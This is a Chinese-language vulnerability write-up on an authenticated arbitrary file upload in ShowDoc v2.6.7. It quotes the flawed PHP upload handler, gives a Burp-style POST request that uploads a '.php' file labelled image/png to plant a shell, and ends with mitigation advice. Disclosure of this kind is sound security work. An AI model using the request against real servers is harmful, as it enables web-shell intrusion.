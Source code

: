 ##  showdoc的api_page存在任意文件上传【需要登录】

### 背景

ShowDoc is a tool greatly applicable for an IT team to share documents online一个非常适合IT团队的在线API文档、技术文档工具

官网 ：https://www.showdoc.cc/ 

GitHub主页：https://github.com/star7th/showdoc

当前测试版本：[v2.6.7](https://github.com/star7th/showdoc/releases/tag/v2.6.7)

### 漏洞点

https://github.com/star7th/showdoc/blob/master/server/Application/Api/Controller/PageController.class.php#L258

```php
//上传附件
    public function upload(){
        $login_user = $this->checkLogin();
        $item_id = I("item_id/d") ? I("item_id/d") : 0 ;
        $page_id = I("page_id/d") ? I("page_id/d") : 0 ;
        $uploadFile = $_FILES['file'] ;
 
        if (!$page_id) {
            $this->sendError(10103,"请至少先保存一次页面内容");
            return;
        }
        if (!$this->checkItemPermn($login_user['uid'] , $item_id)) {
            $this->sendError(10103);
            return;
        }
        
        if (!$uploadFile) {
           return false;
        }
        
        if (strstr(strip_tags(strtolower($_FILES['editormd-image-file']['name'])), ".php") ) {
            return false;
        }

        $upload = new \Think\Upload();// 实例化上传类
        $upload->maxSize  = 4145728000 ;// 设置附件上传大小
        $upload->rootPath = './../Public/Uploads/';// 设置附件上传目录
        $upload->savePath = '';// 设置附件上传子目录
        $info = $upload->uploadOne($uploadFile) ;
        if(!$info) {// 上传错误提示错误信息
          $this->error($upload->getError());
          return;
        }else{// 上传成功 获取上传文件信息
          $url = get_domain().__ROOT__.substr($upload->rootPath,1).$info['savepath'].$info['savename'] ;
          $insert = array(
            "uid" => $login_user['uid'],
            "item_id" => $item_id,
            "page_id" => $page_id,
            "display_name" => $uploadFile['name'],
            "file_type" => $uploadFile['type'],
            "file_size" => $uploadFile['size'],
            "real_url" => $url,
            "addtime" => time(),
            );
          $ret = D("UploadFile")->add($insert);

          echo json_encode(array("url"=>$url,"success"=>1));
        }

    }
```

相比 https://github.com/star7th/showdoc/blob/master/server/Application/Api/Controller/PageController.class.php#L212 的uploadImg() 有过滤,附件上传upload()没有任何过滤.可以直接上传shell。

burp的post数据大致如下：

```
POST /show/server/index.php?s=/api/page/upload HTTP/1.1

------WebKitFormBoundaryzOQywSoNbAALAwKn
Content-Disposition: form-data; name="page_id"

22
------WebKitFormBoundaryzOQywSoNbAALAwKn
Content-Disposition: form-data; name="item_id"

3
------WebKitFormBoundaryzOQywSoNbAALAwKn
Content-Disposition: form-data; name="file"; filename="cs.php"
Content-Type: image/png

PNG

------WebKitFormBoundaryzOQywSoNbAALAwKn--
```

### 防御

增加过滤，同时运维人员设置上传目录禁止执行，只允许写入读取，做好权限分配。

来源于土司：https://www.t00ls.net/thread-56340-1-1.html 由[Mrxn](https://github.com/Mr-xn) 整理 ，欢迎大家前往土司投稿注册发言。